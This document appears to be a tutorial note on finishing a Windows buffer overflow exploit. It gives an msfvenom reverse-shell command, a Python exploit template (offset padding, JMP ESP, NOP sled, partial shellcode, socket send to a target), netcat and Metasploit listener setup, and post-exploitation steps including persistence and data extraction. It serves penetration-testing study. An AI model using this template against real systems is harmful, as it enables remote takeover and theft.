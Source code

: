 # Generating Shellcode and Gaining Root

## Overview
The final step in buffer overflow exploitation is generating shellcode that avoids bad characters and delivers the payload. When successfully executed, this shellcode will provide access to the target system, potentially with root/administrator privileges.

## Key Concepts

- **Shellcode**: Machine code that executes the desired payload (reverse shell, bind shell, etc.)
- **msfvenom**: Metasploit tool for generating shellcode
- **Payload Types**: Reverse shells, bind shells, command execution, etc.
- **NOP Sled**: Series of No Operation instructions (\\x90) that help with memory alignment

## Process

1. **Select Payload Type**: Decide on the type of payload (typically a reverse shell)
2. **Generate Shellcode**: Use msfvenom to create shellcode avoiding bad characters
3. **Create Exploit Structure**:
   - "A"s up to the offset
   - JMP ESP address in the EIP
   - NOP sled (optional but recommended)
   - Shellcode
   
4. **Set Up Listener**: Start a handler to receive the connection (for reverse shells)
5. **Execute Exploit**: Send the complete exploit to the target
6. **Verify Access**: Confirm successful execution and system access

## Generating Shellcode with msfvenom

```bash
# Reverse shell example
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f python -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

Parameters explained:
- `-p`: Payload type
- `LHOST`: Your IP address (where the shell connects back to)
- `LPORT`: Your listening port
- `-f`: Output format
- `-b`: Bad characters to avoid
- `-e`: Encoder to use

## Complete Python Exploit Example

```python
#!/usr/bin/python
import socket, sys
import struct

offset = 2040  # Replace with your confirmed offset
jmp_esp = 0x77A11D90  # Replace with your JMP ESP address

# Convert address to little-endian format
eip = struct.pack("<I", jmp_esp)

# msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f python -b "\x00\x0a\x0d"
buf =  b""
buf += b"\xba\x3b\x7f\x14\xf8\xda\xd8\xd9\x74\x24\xf4\x5e\x33"
buf += b"\xc9\xb1\x52\x31\x56\x12\x03\x56\x12\x83\x48\x03\x97"
# ... (rest of shellcode)

# Final exploit structure
buffer = b"A" * offset + eip + b"\x90" * 16 + buf

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('TARGET_IP', TARGET_PORT))
    s.send(('COMMAND ' + buffer.decode(errors='ignore') + '\r\n').encode())
    s.close()
    print("Exploit sent, check your listener")
except:
    print("Error connecting to server")
    sys.exit()
```

## Setting Up a Listener with Netcat

```bash
# On your attack machine
nc -nvlp 4444
```

## Setting Up a Listener with Metasploit

```
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
run
```

## Important Considerations

- Ensure your listener is running before executing the exploit
- The NOP sled helps with memory alignment and increases reliability
- The shellcode size must fit in the available buffer space
- Choose the appropriate payload for the target system (Windows/Linux)
- Consider firewall restrictions when selecting ports for reverse shells
- For privilege escalation, additional techniques may be needed after gaining access

## Post-Exploitation

After gaining access:
1. Verify your current user privileges
2. Look for privilege escalation opportunities
3. Establish persistence if required
4. Extract valuable data or continue lateral movement
5. Document all findings for reporting

## Troubleshooting

- If the exploit fails, check:
  - Bad character analysis was accurate
  - JMP ESP address is correct and stable
  - Shellcode doesn't contain bad characters
  - Enough buffer space for shellcode
  - Network connectivity between systems

